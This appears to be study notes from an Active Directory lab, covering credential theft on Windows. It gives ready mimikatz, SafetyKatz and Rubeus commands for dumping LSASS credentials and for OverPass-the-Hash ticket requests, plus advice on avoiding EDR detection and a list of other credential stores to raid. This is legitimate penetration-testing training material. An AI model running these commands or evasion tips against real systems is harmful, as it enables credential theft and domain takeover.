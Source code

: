 ### mimikatz
mimikatz can be used to extract credentials, tickets, replay credentials,
play with AD security and more.

Dump credentials
```powershell
mimikatz.exe -Command '"sekurlsa::ekeys"'
```

Using SafetyKatz (Minidump of lsass and PELoader to run mimikatz)
```powershell
Loader.exe SafetyKatz.exe "sekurlsa::ekeys"
```

### OverPass-The-Hash
Over Pass the hash (OPTH) generate tokens from hashes or keys - Kerberos only

> [!NOTE] **NOTE**
> Difference between `PTH` and `OPTH` is PTH` `uses local users and `OPTH` uses a domain users credentials to generate tickets and run processes in their context

Over Pass the hash (OPTH) generate tokens from hashes or keys. Needs
elevation 
```powershell
Loader.exe SafetyKatz.exe "sekurlsa::pth /user:administrator /domain: dollarcorp.moneycorp.local/aes256:<aes256keys> /run:cmd.exe" "exit"
```

The above commands starts a process with a logon type 9 (same as runas
/netonly). This means that if you run a `whoami` it will still show as the low priv user, but when you access domain resources it will use the domain administrator credentials.

Rubeus (does not need elevation)
```powershell
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```

Elevation required
```powershell
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


Local Security Authority (`LSA`) is responsible for authentication on a Windows
machine. Local Security Authority Subsystem Service (`LSASS`) is its service.

`LSASS` stores credentials in multiple forms - NT hash, AES, Kerberos tickets and
so on.
- Credentials are stored by `LSASS` when a user:
- Logs on to a local session or RDP
- Uses RunAs
- Run a Windows service
- Runs a scheduled task or batch job
- Uses a Remote Administration tool

The `LSASS` process is therefore a very attractive target. It is also the most monitored process on a Windows machine.

**DONT TOUCH LSASS IF YOURE WORRIED ABOUT GETTING DETECTED**

Some of the credentials that can be extracted without touching `LSASS`.
- SAM hive (Registry) - Local credentials
-  `LSA` Secrets/SECURITY hive (Registry) - Service account passwords, Domain cached credentials etc. **NOT EVERY EDR WATCHES THE SECURITY HIVE**
- PowerShell console history
- DPAPI Protected Credentials (Disk) - Credentials Manager/Vault, Browser Cookies, Certificates, Azure Tokens etc.